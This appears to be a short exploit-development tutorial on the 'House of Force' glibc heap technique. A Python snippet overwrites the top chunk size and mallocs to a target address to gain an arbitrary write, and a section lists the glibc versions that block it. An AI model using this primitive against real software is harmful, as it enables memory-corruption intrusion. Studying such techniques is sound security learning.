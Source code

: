  
## Implementation

Simple arbitrary write primitive that works if we can overwrite the top chunk size.
We overwrite it to the biggest value possible, then we malloc right before our target write address, and finally malloc our target write address to write data to it.

```python
def delta(start, end): # if we have to wraparound
    return (0xffffffffffffffff - start) + end
    
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))
distance = delta(heap + 0x20, elf.sym.target - 0x20)
malloc(distance, b"Y")
malloc(24, "winwin")
```

## Mitigation

- Works until glibc version 2.29. After that, glibc ensures that the top chunk
size does not exceed its arena’s system_mem value.
- Wrap around to VA space only works until 2.30, glibc introduced a maximum allocation size check, which limits the size of the gap the House of Force can bridge.